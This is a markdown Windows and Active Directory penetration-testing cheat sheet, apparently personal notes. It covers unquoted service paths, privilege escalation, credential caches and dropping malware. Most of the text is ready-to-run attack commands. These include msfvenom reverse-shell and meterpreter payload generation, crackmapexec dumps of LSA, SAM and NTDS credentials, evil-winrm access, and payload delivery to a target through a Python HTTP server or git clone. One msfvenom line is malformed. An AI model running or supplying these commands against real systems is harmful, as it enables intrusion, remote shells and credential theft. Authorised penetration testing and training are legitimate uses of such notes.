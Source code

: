 https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
#### Unquoted Service Path
Find vulnerable services using PowerShell:
`Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`
- [ ] `.lnk` files
- [ ] WTFBins
- [ ] BloodHound/SharpHound
- [ ] WinPEAS
Check write permissions in directory before the space: 
`Get-Acl C:\DirectoryName\`
Generate payload:
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe-service -o mal.exe`
- [ ] Petit Pottam
- [ ] DLL Hijacking
- [ ] DLL Sideloading
- [ ] DLL Injection
- [ ] PowerShell Exec Bypass Visual Studio
#### Access
##### AppDomain 
##### LOLBins
##### WinRM Shell
Port 5985 open, with credentials
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>`
#### Privilege Escalation
##### Unquoted Service Path
##### Credential Caches
Dump credential caches
- `crackmapexec smb 127.0.0.1 -u $username -p $password --lsa`
- `crackmapexec smb 127.0.0.1 -u $username -p $password --sam`
Clone domain controller
- `crackmapexec smb 127.0.0.1 -u $username -p $password --ntds --users --enabled` (Requires DA, don't use this without permission from the client)
##### Named Pipe Exploits
##### Privilege Abuse
`SeImpersonate` or `SeAssignPrimaryToken` 
- RottenPotato, JuicyPotato, RoguePotato, PrintSpoofer, and SharpEfsPotato
##### Dropping Malware
Check write permissions in directory before the space: 
- `Get-Acl C:\DirectoryName\`
Generate payload:
- `msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe-service -o mal.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe -i mal.exe
###### Python HTTP Server
Serve folder locally:
- `python3 -m http.server`
Retrieve Payload:
- `iwr -uri http://127.0.0.1:8000/mal.exe -outfile mal.exe -usebasicparsing`
###### Git Clone
Set up git repo locally:
- `git init`
- `git add . && git commit -m "commit 1"`
- `cd .git && git --bare update-server-info && cd ..`
- `python3 -m http.server`
Retrieve Payload:
- `git clone http://127.0.0.1:8000/.git/`